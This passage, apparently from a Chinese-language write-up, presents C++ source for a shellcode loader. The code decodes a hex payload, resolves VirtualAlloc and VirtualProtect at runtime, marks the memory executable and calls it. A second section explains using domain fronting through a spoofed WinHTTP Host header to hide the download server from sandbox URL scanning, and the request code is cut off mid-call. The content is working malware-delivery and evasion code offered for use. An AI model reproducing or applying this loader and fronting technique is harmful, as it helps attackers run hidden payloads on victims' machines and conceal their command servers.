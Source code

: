 ```
       unsigned int iterations = strlen(szTmp);


       unsigned int memory_allocation = strlen(szTmp) / 2;

       VirtualProtect(szTmp, memory_allocation, PAGE_READWRITE, 0);

       for (unsigned int i = 0; i < iterations / 2; i++) {
         sscanf_s(szTmp + 2 * i, "%2X", &char_in_hex);
         szTmp<i> = (char)char_in_hex;
       }

       MyVirtualAlloc defVirtualAlloc = (MyVirtualAlloc)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "VirtualAlloc");
       MyVirtualProtect defVirtualProtect = (MyVirtualProtect)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "VirtualProtect");

       void* abvc = defVirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
       memcpy(abvc, szTmp, memory_allocation);
       DWORD ignore;
       defVirtualProtect(abvc, memory_allocation, PAGE_EXECUTE, &ignore);

       (*(void(*)()) abvc)();
       delete pBuffer;


    }
```

### 对敏感数据进行处理

沙箱中会静态从内存中匹配url 链接，这里用域前置来匿名服务器地址， 在winhttp中增加个指定的host头来实现域前置  

```
    std::wstring strHost = GetHost(Url); #获取host
    std::wstring strRequestStr = GetRequestStr(Url); #获取目录
    //wcout << strHost;
    //wcout << strRequestStr;
    //访问的header
    std::wstring  header = L"Host: " + strHost + L"\r\nContent-type: application/x-www-form-urlencoded\r\nCache-Control: max-age=0\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: zh-CN,zh;q=0.8\r\n";
    //建立连接的host 
    strHost = strHost + L".w.xxxx.com"; //动态域名 
    LPCWSTR host = wstringToLPCWSTR(strHost.c_str());
    LPCWSTR requestStr = wstringToLPCWSTR(strRequestStr.c_str());



    HINTERNET hSession = WinHttpOpen(L"User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.2141.400 QQBrowser/9.5.10219.400",
       WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
       WINHTTP_NO_PROXY_NAME,
       WINHTTP_NO_PROXY_BYPASS, 0);
    DWORD dwReadBytes = 0, dwSizeDW = sizeof(dwSizeDW), dwContentSize = 0, dwIndex = 0, dwStatusCode = 0;
    HINTERNET  hConnect = WinHttpConnect(hSession, host,
       INTERNET_DEFAULT_HTTP_PORT, 0);



    HINTERNET hRequest = hRequest = WinHttpOpenRequest(hConnect, L"GET", requestStr,
       NULL, WINHTTP_NO_REFERER,
```